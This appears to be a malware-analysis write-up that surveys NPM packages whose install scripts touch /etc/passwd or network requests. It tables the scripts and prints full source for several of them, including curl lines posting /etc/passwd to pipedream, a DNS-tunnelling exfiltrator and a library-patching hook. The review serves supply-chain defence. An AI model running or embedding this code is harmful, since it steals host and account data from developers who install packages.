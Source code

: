 ```yaml
---
title: "NPM malware results, Oct 4, 2023"
date: 2023-10-04T00:00:00-07:00
tags:
  - malware-analysis
  - javascript
  - npm
---
```


Reviewing pre- and postinstall scripts for NPM packages.

References to `passwd`:

| package                    | version | preinstall                                                                      | postinstall                                                               |
|----------------------------|---------|---------------------------------------------------------------------------------|---------------------------------------------------------------------------|
| cat-etc-passwd             | 1.0.2   |                                                                                 | `node index.js`                                                             |
| cat-etc-passwd             | 1.0.3   |                                                                                 | `node index.js`                                                             |
| cat-etc-passwd             | 1.0.4   |                                                                                 | `node index.js`                                                             |
| securisecidonothing        | 1.0.2   | `cat /etc/passwd`                                                                 |                                                                           |
| sophs-test-package         | 1.7.6   | `blah /etc/passwd blah`                                                           |                                                                           |
| peekatchuysharmlesspackage | 1.0.15  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| peekatchuysharmlesspackage | 1.0.16  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| peekatchuysharmlesspackage | 1.0.17  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| lenskart                   | 1.0.5   | `/usr/bin/curl --data '@/etc/passwd' $(hostname).eo2z7l1ydft6861.m.pipedream.net` |                                                                           |
| lenskart                   | 1.0.6   | `/usr/bin/curl --data '@/etc/passwd' $(hostname).eo2z7l1ydft6861.m.pipedream.net` |                                                                           |

Packages that reference `request` during preinstall (such as to install the `request` library for HTTP requests):

| package                             | version  | preinstall                                                        | postinstall                 |
|-------------------------------------|----------|-------------------------------------------------------------------|-----------------------------|
| @0xshahriar/svgo                    | 1.3.1    | `curl -X POST -d 'Hello' https://0xshahriar.requestcatcher.com/`  |                             |
| @sagedotcomwebteam/sagedotcom       | 7.0.0    | `npm i request --save-dev`                                        | `node index.js`             |
| bashlist-mac                        | 1.0.1    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.0    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.1    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.2    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.3    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.4    | `pip install requests && python osdetect.py`                      |                             |
| build-package-json                  | 1.0.5    | `npm i readline-sync async-request async-child-process shelljs`   |                             |
| sagedotcom                          | 7.0.0    | `npm i request --save-dev`                                        | `node index.js`             |
| file-dependencies                   | 1.0.1    | `npm install q@1.1.2 request@2.53.0`                              | `node file-dependencies.js` |
| file-dependencies                   | 1.2.1    | `npm install q@1.1.2 request@2.53.0`                              | `node file-dependencies.js` |
| npm-curl-test                       | 1.0.0    | `curl --request GET \ --url http://192.168.188.5:3000/`           |                             |
| openshift-cli                       | 1.0.6    | `npm install request@2.74.0 unzip@0.1.11 && ./scripts/install.js` |                             |
| @res-dlt-interop/fabric-interop-sdk | 2.2.1-a… | `npm i request --save-dev`                                        | `node index.js`             |
| @res-dlt-interop/fabric-cli         | 2.2.1-a… | `npm i request --save-dev`                                        | `node index.js`             |
| @media-extensions/commons           | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| bunnymen                            | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| @coherence-design-system/controls   | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| @cseo/controls                      | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| foundation-docs                     | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| showcase-echo-client                | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| @create-aptos-app/eslint-config     | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |


## cat-etc-passwd@1.0.4

`/index.js`

```js
const { exec } = require('child_process');
const fetch = require('node-fetch');

exec('cat /etc/passwd', (error, stdout, stderr) => {
  if (error) {
    console.error(`exec error: ${error}`);
    return;
  }

  fetch('https://us-central1-xenon-shard-259622.cloudfunctions.net/http-request-logger', {
    method: 'POST',
    body: `
      stdout:

      ${stdout}

      stderr:

      ${stderr}
    `
  });
});
```


## hackage@1.0.5

`/index.js` (postinstall script) inserts additional code into the `btoa` base64 encoding routine:

```js
const fs = require('fs');

try {
    const dir = fs.readdirSync('./node_modules/btoa');
    const file = fs.readFileSync('./node_modules/btoa/index.js');
    const content = file.toString();

    const newContent = content.replace("return buffer.toString('base64');", `
    console.log(str)
    return buffer.toString('base64');
    `);

    fs.writeFileSync('../henk', newContent);
    fs.writeFileSync('/henk', newContent);
    fs.writeFileSync('./node_modules/btoa/index.js', newContent);
} catch (e) {
    console.log('shame on me', e)
}
```


## harel-logger-ts@1.0.8

`/dns.js` (preinstall script) exfiltrates path, hostname, username via DNS queries:

```js
var os = require("os");
const dns = require('dns');

const characters ='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
const baseurl = ".cdt6561bn6qs73f30tr0z3rxd3et79r1s.oast.fun"
const id = generateString(3) + "."
const npmpkg = "harel-logger-ts"
const path = process.cwd().toString();
const hostname = os.hostname().toString();
const username = os.userInfo().username.toString();

const data = npmpkg + '.' + path + '.' + hostname + '.' + username
const dataHex = Buffer.from(data, 'utf8').toString('hex')

//console.log('data: ' +dataHex)

function generateString(length) {
    let result = ' ';
    const charactersLength = characters.length;
    for ( let i = 0; i < length; i++ ) {
        result += characters.charAt(Math.floor(Math.random() * charactersLength));
    }

    return result;
}

function chunkString(str, length) {
  return str.match(new RegExp('.{1,' + length + '}', 'g'));
}
function breakAndSend(value){
	let chunks = chunkString(value, 50)
	console.log(chunks)
	chunks.forEach(function (chunk, index) {
		//console.log(chunk, index);
		let url = id.toLowerCase() + index.toString() + '.' + chunk + baseurl

		//console.log(url + '\n');
		
		
		dns.resolve(url, (err, address, family) => {
		  if(err) throw err;
		  //console.log(address);
		});
		
});

}

breakAndSend(dataHex)
```

## stripe-terminal-react-native@999.99.99

`/index.js` (postinstall script) trivially exfiltrates hostname:

```js
var os = require("os")
const request = require('requests')
var fs = require('fs')

var h = os.hostname()

request(`https://eoenp5lacdw4vru.m.pipedream.net/?h=${h}`, (error, response, body) => {})
```


